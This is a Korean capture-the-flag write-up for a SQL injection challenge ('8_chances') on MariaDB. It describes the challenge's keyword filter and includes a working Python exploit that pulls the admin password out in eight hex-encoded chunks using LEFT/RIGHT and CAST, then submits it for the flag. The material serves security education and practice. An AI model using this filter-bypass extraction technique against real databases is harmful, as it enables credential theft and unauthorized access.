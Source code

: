 # 8_chances

## Concept

- sql injection
- mariadb

## Writeup

주요 기능을 정리해보겠습니다.
1. `reset` : `chance`를 8로 초기화합니다.
2. `test` : 입력한 쿼리를 실행시켜줍니다. 이 때 쿼리에
   `['union', 'update', 'sleep', 'concat', 'like', 'set', '@', '!', '%', '_', '\t','\n','\r','\v','\f', '/', '*', '#']`
   을 포함하면 안 됩니다.
3. `real` : `username`과 `password`를 입력받고 이것이 `admin`의 정보와 일치하면 `flag`를 줍니다. 이 때 `username`과 `password`는
   `string.punctuation + string.whitespace + string.digits`
   을 포함하면 안 됩니다.

`test` 기능을 자세히 보겠습니다.
`chance >= 8`이면 `admin`의 `password`를 교체합니다. 그리고 `test` 실행마다 `chance`가 1씩 증가하기 때문에 한 번 정해진 `password`는 8번의 쿼리 동안 유지됩니다. 쿼리 실행 결과의 요소가 1개이고, 그 `value`가 `int` 형이라면 출력해줍니다.
## ex.py

```python
import requests

base_url = "http://localhost:10000/"

def reset():
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : "1",
        "type" : "reset"
    }
    requests.post(base_url, data=data)

def test(testquery : str):
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : testquery,
        "type" : "test"
    }
    res = requests.post(base_url, data=data)
    msg = res.text
    msg = msg.split('\n')[110].split('<')[1].split('>')[1]
    return msg

def real(ps : str):
    data = {
        "user" : "admin",
        "pass" : ps,
        "testquery" : "1",
        "type" : "real"
    }
    res = requests.post(base_url, data=data)
    return res.text

def lef(s : str, n : int):
    return "LEFT(" + s + f", {str(n)})"

def rig(s : str, n : int):
    return "RIGHT(" + s + f", {str(n)})"

def outline(s : str):
    return "SELECT CAST(" + s + " as UNSIGNED)"

base_payload = f"""
HEX(HEX((SELECT password FROM users WHERE username='admin')))
""".strip()

reset()
pw = ""
pw += test(outline(lef(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(rig(base_payload, 76), 38), 19)))
realpw = bytes.fromhex(bytes.fromhex(pw).decode()).decode()
print(realpw)
print(real(realpw))
```

8등분하는 방법은 여러 가지입니다. 예를 들어 `LEFT`와 `REVERSE` 함수만으로도 비슷한 논리를 이용하여 해결할 수 있습니다.